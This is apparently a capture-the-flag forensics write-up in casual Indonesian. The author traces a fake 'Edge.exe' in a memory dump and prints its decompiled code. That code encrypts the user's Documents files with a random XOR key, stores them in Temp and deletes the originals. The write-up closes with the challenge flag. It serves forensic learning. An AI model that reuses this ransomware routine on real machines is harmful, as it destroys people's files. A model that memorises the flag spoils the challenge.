


##### 
Halo, jadi ini adalah Write-up terkait chall `pf-ing (prefetch-ing)`kategori DFIR (Digital Forensic Incident Response) yang dibuat oleh goat `k.eii`, ini event dari tahun 2024 btw, upsolve yang cukup lama karna skill issue wkwkwk (dulu masih cupu, sekarang jg masi cupu tapi mendingan lah), dan juga ini menjadi satu satu nya chall forensic yang 0 solve karna emang jujur susah untuk kelas pelajar, tapi gw berhasil solve, dan ini Write-up / tl;dr nya.


Diberikan sebuah file `dump.dmp`, jika kita cek dengan perintah `file`,


jadi langsung aja scan files nya, karna udah ketauan dari judul nya, yaitu `pf-ing`, kita fokus untuk scan files yang berformat `.pf`



disini memang awalnya gw ga ngeliat something sus, tapi gw baru inget kalo microsoft edge itu prosessing nya `msedge.exe`, bukan `edge.exe`, karna sus, DUMP IT!!




decompile `Edge.exe` nya...


```c
int sub_7FF6571B1830()
{
  unsigned int v1; // eax
  LPSTR pszPath; // [rsp+20h] [rbp-60h]
  CHAR FileName[272]; // [rsp+30h] [rbp-50h] BYREF
  struct _WIN32_FIND_DATAA FindFileData; // [rsp+140h] [rbp+C0h] BYREF
  char v5[272]; // [rsp+280h] [rbp+200h] BYREF
  char v6[272]; // [rsp+390h] [rbp+310h] BYREF
  CHAR Str[272]; // [rsp+4A0h] [rbp+420h] BYREF
  CHAR v8[271]; // [rsp+5B0h] [rbp+530h] BYREF
  unsigned __int8 v9; // [rsp+6BFh] [rbp+63Fh]
  HANDLE hFindFile; // [rsp+6C0h] [rbp+640h]
  int v11; // [rsp+6CCh] [rbp+64Ch]

  hFindFile = (HANDLE)-1i64;
  v11 = 0;
  SHGetFolderPathA(0i64, 5, 0i64, 0, v8);
  SHGetFolderPathA(0i64, 28, 0i64, 0, Str);
  strcat(Str, "\\Temp");
  sub_7FF6571B17E4(Str);
  sub_7FF6571B1591(FileName, 260i64, "%s\\*", v8);
  hFindFile = FindFirstFileA(FileName, &FindFileData);
  if ( hFindFile == (HANDLE)-1i64 )
    return sub_7FF6571B1540("Error finding files in Documents\n");
  v1 = sub_7FF6571B15DB(0i64);
  srand(v1);
  do
  {
    if ( (FindFileData.dwFileAttributes & 0x10) == 0 )
    {
      sub_7FF6571B1591(v6, 260i64, "%s\\%s", v8, FindFileData.cFileName);
      LODWORD(pszPath) = ++v11;
      sub_7FF6571B1591(v5, 260i64, "%s\\%d.dll", Str, pszPath);
      v9 = sub_7FF6571B1652(v6, v5);
      if ( v9 )
      {
        sub_7FF6571B1540("Encrypted %s -> %s with XOR key: 0x%02x\n", FindFileData.cFileName, v5, v9);
        if ( remove(v6) )
          perror("Error deleting original file");
        else
          sub_7FF6571B1540("Deleted original file: %s\n", v6);
      }
      else
      {
        sub_7FF6571B1540("Failed to encrypt file: %s\n", FindFileData.cFileName);
      }
    }
  }
  while ( FindNextFileA(hFindFile, &FindFileData) );
  return FindClose(hFindFile);
}
```
dan pada function `sub_7FF6571B1652`:


```c
__int64 __fastcall sub_7FF6571B1652(const char *a1, const char *a2)
{
  FILE *v3; // [rsp+28h] [rbp-28h]
  unsigned __int8 v4; // [rsp+37h] [rbp-19h]
  void *Buffer; // [rsp+38h] [rbp-18h]
  int v6; // [rsp+44h] [rbp-Ch]
  FILE *Stream; // [rsp+48h] [rbp-8h]

  Stream = fopen(a1, "rb");
  if ( Stream )
  {
    fseek(Stream, 0, 2);
    v6 = ftell(Stream);
    rewind(Stream);
    Buffer = malloc(v6);
    if ( Buffer )
    {
      fread(Buffer, 1ui64, v6, Stream);
      fclose(Stream);
      v4 = rand() % 256;
      sub_7FF6571B15FA((__int64)Buffer, v6, v4);
      v3 = fopen(a2, "wb");
      if ( v3 )
      {
        fwrite(Buffer, 1ui64, v6, v3);
        fclose(v3);
        free(Buffer);
        return v4;
      }
      else
      {
        perror("Error opening destination file");
        free(Buffer);
        return 0i64;
      }
    }
    else
    {
      fclose(Stream);
      perror("Memory allocation error");
      return 0i64;
    }
  }
  else
  {
    perror("Error opening source file");
    return 0i64;
  }
}
```

jadi kesimpulannya, `Edge.exe` adalah sebuah ransomware yang mengencrypt file dengan key XOR random, tetapi memiliki limit 256, jadi ini untuk merecovery file nya masih brute-force-able, dan encrypted files nya disimpan di `\\temp`, untuk cek encrypted files nya gw pake PECmd,


dan bener ternyata ada, karna PECmd cacad gabisa ngasih address nya, terpaksa disini gw harus filescan semua trus nyari manual,


disini gw nyoba yang ke 7 dulu,


dan bukan, sekarang gw nyoba yang ke 6 dan....


ini pasti bakal cape bnget sih kalo gw mulai dari 1 wkwkwk, untung dri yg paling akhir, jadi flag nya

Flag: `SNI{intr0_t0_df1r_and_th1s_g1rl_is_w4y_b3tter_than_Chizuru}`

